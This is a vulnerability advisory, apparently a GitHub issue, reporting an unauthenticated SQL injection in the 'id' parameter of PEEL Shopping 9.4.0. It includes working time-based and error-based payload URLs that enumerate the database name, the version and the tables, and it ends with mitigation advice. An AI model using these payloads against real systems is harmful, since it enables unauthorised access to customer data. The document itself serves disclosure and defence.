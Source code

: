 **Vulnerability Name:** SQL Injection in "_produit_details.php?id_" parameter

**Date of Discovery:** 10 July 2021 

**Product version:** 9.4.0 . [Download link](https://drive.google.com/file/d/1FM8du7J6DDxE-LwVmH8JI502vvom-DUU/view?usp=sharing)

**Author:** faisalfs10x

**Vulnerability Description:** Public user/guest (unauthenticated) can inject malicious SQL query in order to affect the execution of predefined SQL commands via the "_id_" parameter on the "_/peel-shopping_9_4_0/achat/produit_details.php?id=[SQLi]_" endpoint. Upon successful of SQL injection attack, attacker can read sensitive data from the database or modify database data.

**Vulnerable URL:** _http://localhost/peel-shopping_9_4_0/achat/produit_details.php?id=[SQLi]_

**Proof of Concept:**

**1)** Assumed peel-shopping_9_4_0 out of box installation database name is _peel_. This query will check if _database()_ name like _hex(%peel%)_ - it will delay for 7 seconds before redirect to homepage (http://localhost/peel-shopping_9_4_0/) that indicates TRUE SQL statement which mean the database name like "_peel_".

**url :** http://localhost/peel-shopping_9_4_0/achat/produit_details.php?id=(SELECT+1337+FROM+(SELECT(SLEEP(7-(IF(DATABASE()+LIKE+0x257065656c25,0,5)))))FSXX) 

[PoC enum db name]
![enum_dbname](https://user-images.githubusercontent.com/51811615/125202026-5ac05480-e2a4-11eb-8aa8-0bd79718769f.png)


**2)** Assumed the web is using MariaDB database server - check if db_version like _hex(%MariaDB%)_, it will delay for 5 seconds if TRUE.

**url :** http://localhost/peel-shopping_9_4_0/achat/produit_details.php?id=(SELECT+1337+FROM+(SELECT(SLEEP(5-(IF(VERSION()+LIKE+0x254d61726961444225,0,5)))))FSXX)

[Poc enum MariaDB]
![enum_dbversion(MariaDB)](https://user-images.githubusercontent.com/51811615/125202107-b68add80-e2a4-11eb-8b16-5f03eedcb275.PNG)


**3)** By default, the database have a table name = peel_produits. This query will check if table_name _peel_produits_ is exist, it will delay for 10 seconds if TRUE, else will redirect to homepage instantly.

**url :** http://localhost/peel-shopping_9_4_0/achat/produit_details.php?id=(SELECT+1337+FROM+(SELECT(SLEEP(10-(IF(EXISTS(SELECT+3+FROM+peel.peel_produits),0,5)))))FSXX)

[PoC enum table peel_produits]
![enum_tablename](https://user-images.githubusercontent.com/51811615/125202148-d91cf680-e2a4-11eb-95fe-5dd3c633f285.png)


To produce SQL syntax error, it is possible to intercept the request before it is redirect to homepage using a tool like BurpSuite (repeater).

**Error syntax:** http://localhost/peel-shopping_9_4_0/achat/produit_details.php?id=(SELECT+1337+FROM+(SELdECT(SLEEP(3-(IF(USER()+LIKE+0xGEN_ERROR,0,5)))))ERR)

1. [MariaDB disclosed image]
![sql_error_mariadb](https://user-images.githubusercontent.com/51811615/125202162-e934d600-e2a4-11eb-8a08-9086e37f1706.png)

2. [peel_produits table_name disclosed]
![sql_errorbased2](https://user-images.githubusercontent.com/51811615/125202167-efc34d80-e2a4-11eb-9158-a66b2297eff3.png)

**Dump table name = peel_profil**

![dump_table_peel_profil](https://user-images.githubusercontent.com/51811615/125201991-2b114c80-e2a4-11eb-9c16-3a5197bcb51a.PNG)


**Consequences:** 

- Confidentiality: Since SQL databases generally hold sensitive data, loss of confidentiality is a frequent problem with SQL Injection vulnerabilities.
- Integrity: Just as it may be possible to read sensitive information eg client/customer sensitive data, it is also possible to make changes or even delete this information with a SQL Injection attack.

**Mitigation:** Use of Prepared Statements (with Parameterized Queries). It would be good also to casting integer to ensure only numerical data is inserted in 'id' parameter eg - intval($_GET['id'])

**References for Mitigation Vulnerability:** https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html

**References:** https://github.com/advisto/peel-shopping/issues/3
